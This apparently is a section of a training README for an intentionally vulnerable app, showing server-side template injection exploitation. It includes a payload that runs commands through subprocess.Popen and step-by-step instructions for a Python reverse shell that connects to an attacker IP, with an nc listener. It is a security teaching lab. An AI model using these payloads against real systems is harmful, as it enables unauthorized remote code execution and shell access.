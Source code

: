 ## Advanced Exploitation

For educational purposes, this application also describes more advanced exploitation techniques. In a real-world scenario, an attacker could achieve remote code execution by:

```
{{ ''.__class__.__mro__[1].__subclasses__()[<index>]('command', shell=True, stdout=-1).communicate()[0].strip() }}
```

Where `<index>` is the position of `subprocess.Popen` in the subclasses list. This could execute arbitrary system commands.

## Creating a Python Reverse Shell

⚠️ **WARNING: This section is for educational purposes only. Using this knowledge to access systems without authorization is illegal.** ⚠️

A more advanced exploitation technique is creating a reverse shell, which provides remote terminal access to the vulnerable server. Here's how to create a Python reverse shell using the SSTI vulnerability:

### Step 1: Set up a listener on your machine

First, set up a listener on your machine to receive the connection:

```bash
nc -lvnp 4444
```

### Step 2: Create and inject the reverse shell payload

Replace `<attacker-ip>` with your IP address and `<index>` with the subprocess.Popen index from the application:

```
{{ ''.__class__.__mro__[1].__subclasses__()[<index>]('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker-ip>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\' &', shell=True) }}
```

This payload:
1. Creates a socket connection back to your machine
2. Redirects stdin, stdout, and stderr to the socket
3. Spawns an interactive shell

### Step 3: Execute the payload

Paste the payload into the "Enter Template Code" field on the vulnerable page and submit it. If successful, your listener will receive a connection, giving you shell access to the vulnerable container.

### Prevention

This advanced attack vector further emphasizes why template injection vulnerabilities are so dangerous. Always ensure that user input is never directly interpreted as a template.
